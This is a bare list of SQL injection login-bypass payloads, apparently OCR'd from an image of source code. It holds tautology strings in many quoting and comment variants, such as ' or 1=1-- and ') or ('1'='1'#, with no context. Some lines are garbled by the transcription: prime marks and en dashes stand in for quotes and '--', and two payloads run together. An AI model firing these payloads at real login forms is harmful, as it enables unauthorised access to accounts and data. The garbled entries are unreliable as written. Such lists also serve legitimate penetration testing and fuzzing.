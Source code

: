 ```
' or 1=1--
' or '1'='1
' or '1'='1'--
' or '1'='1'/*
' or '1'='1'#
' or '1′='1
' or 1=1
' or 1=1 --
' or 1=1 –
' or 1=1;#
' or 1=1/*
' or 1=1#
' or 1=1–
') or '1'='1
') or '1'='1--
') or '1'='1'--
') or '1'='1'/*
') or '1'='1'#
') or ('1'='1
') or ('1'='1--
') or ('1'='1'--
') or ('1'='1'/*
') or ('1'='1'#
'or'1=1
'or'1=1′
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 –
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1–
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1′='1–
) or ('1′='1–
' or 1=1 LIMIT 1;#
'or 1=1 or ''='
"or 1=1 or ""="
' or a=a--
' or a=a–
" or "a"="a
") or ("a"="a
') or ('a'='a and hi") or ("a"="a
' or 'one'='one
' or 'one'='one–
' or uid like '%
' or uname like '%
' or userid like '%
' or user like '%
' or username like '%
') or ('x'='x
' OR 'x'='x'#;
```